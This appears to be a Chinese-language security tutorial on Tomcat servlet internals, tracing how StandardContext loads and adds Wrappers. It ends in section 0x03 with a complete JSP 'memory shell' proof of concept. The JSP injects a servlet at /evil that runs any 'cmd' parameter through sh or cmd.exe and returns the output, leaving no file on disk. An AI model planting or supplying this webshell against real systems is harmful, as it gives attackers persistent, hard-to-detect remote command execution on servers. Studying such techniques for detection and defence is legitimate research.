




# 0x01 Servlet First Shoot

1. 引入依赖

```xml
<dependency>
    <groupId>javax.servlet</groupId>
    <artifactId>javax.servlet-api</artifactId>
    <version>4.0.1</version>
</dependency>
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-catalina</artifactId>
    <version>9.0.60</version>
</dependency>
```

2. 自定义Servlet

```java
package servlets;

import javax.servlet.ServletException;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.PrintWriter;

public class MyServlet extends HttpServlet {
    @Override
    public void init() throws ServletException {
        System.out.println("init....");
    }
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        PrintWriter writer = resp.getWriter();
        writer.write("Hello Servlet");
    }
}
```

3. 注册Servlet（web.xml）

```xml
<servlet>
    <servlet-name>MyServlet</servlet-name>
    <servlet-class>servlets.MyServlet</servlet-class>
    <load-on-startup>1</load-on-startup>
</servlet>
<servlet-mapping>
    <servlet-name>MyServlet</servlet-name>
    <url-pattern>/test</url-pattern>
</servlet-mapping>
```

访问/test 返回页面Hello Servlet

# 0x02 Create Servlet Memory Shell

在`init`处下断点，观察调用栈

`org.apache.catalina.core.StandardContext#startInternal`



`findChildren()`把所有Wrapper传入`loadOnStartup`进行处理

`org.apache.catalina.core.StandardContext#loadOnStartup`

```java
public boolean loadOnStartup(Container children[]) {

        // Collect "load on startup" servlets that need to be initialized
        TreeMap<Integer, ArrayList<Wrapper>> map = new TreeMap<>();
        for (Container child : children) {
            Wrapper wrapper = (Wrapper) child;
            int loadOnStartup = wrapper.getLoadOnStartup();
            if (loadOnStartup < 0) {
                continue;
            }
            Integer key = Integer.valueOf(loadOnStartup);
            ArrayList<Wrapper> list = map.get(key);
            if (list == null) {
                list = new ArrayList<>();
                map.put(key, list);
            }
            list.add(wrapper);
        }

        // Load the collected "load on startup" servlets
        for (ArrayList<Wrapper> list : map.values()) {
            for (Wrapper wrapper : list) {
                try {
                    wrapper.load();
                }
          //.....
```

讲Tomcat架构的时候提到，一个 Wrapper 对应一个 Servlet。负责管理 Servlet ，包括 Servlet 的装载、初始化、执行以及资源回收。

这里的`wrapper.load()`应该就对应着Servlet的装载

每个Servlet的启动顺序在web.xml中，如果没有声明 load-on-startup 属性（默认为-1），则该Servlet会被动态添加到容器。

`wrapper.load()` => `loadServlet`



可以看到这里是通过获取servletClass来装载Servlet

完成装载后，进行初始化，根据请求进行调用，最终销毁

> 装载：启动服务器时加载Servlet的实例

> 初始化：web服务器启动时或web服务器接收到请求时，或者两者之间的某个时刻启动。初始化工作由init()方法负责执行完成

> 调用：即每次调用Servlet的service()，从第一次到以后的多次访问，都是只是调用doGet()或doPost()方法

> 销毁：停止服务器时调用destroy()方法，销毁实例

`Wrapper`是`findChildren()`遍历的来的，去看看`findChildren()`所在类有无`addChild()`之类的用于添加`Wrapper`的方法

`org.apache.catalina.core.ContainerBase#addChild`

```java
public void addChild(Container child) {
    if (Globals.IS_SECURITY_ENABLED) {
        PrivilegedAction<Void> dp =
            new PrivilegedAddChild(child);
        AccessController.doPrivileged(dp);
    } else {
        addChildInternal(child);
    }
}
```



实际上`StandardContext`重写了父类`ContainerBase`的`addChild`方法



先调用父类的`addChild`，接着进行访问jsp的处理

# 0x03 POC

```jsp
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%@ page import="java.io.PrintWriter" %>
<%!
    Servlet servlet = new Servlet() {
        @Override
        public void init(ServletConfig servletConfig) throws ServletException {

        }
        @Override
        public ServletConfig getServletConfig() {
            return null;
        }
        @Override
        public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
            String cmd = servletRequest.getParameter("cmd");
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            PrintWriter out = servletResponse.getWriter();
            out.println(output);
            out.flush();
            out.close();
        }
        @Override
        public String getServletInfo() {
            return null;
        }
        @Override
        public void destroy() {

        }
    };
%>
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext stdcontext = (StandardContext) req.getContext();
%>
<%
    Wrapper newWrapper = stdcontext.createWrapper();
    String name = servlet.getClass().getSimpleName();
    newWrapper.setName(name);
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());
%>
<%
    stdcontext.addChild(newWrapper);
    stdcontext.addServletMappingDecoded("/evil", name);
%>
```

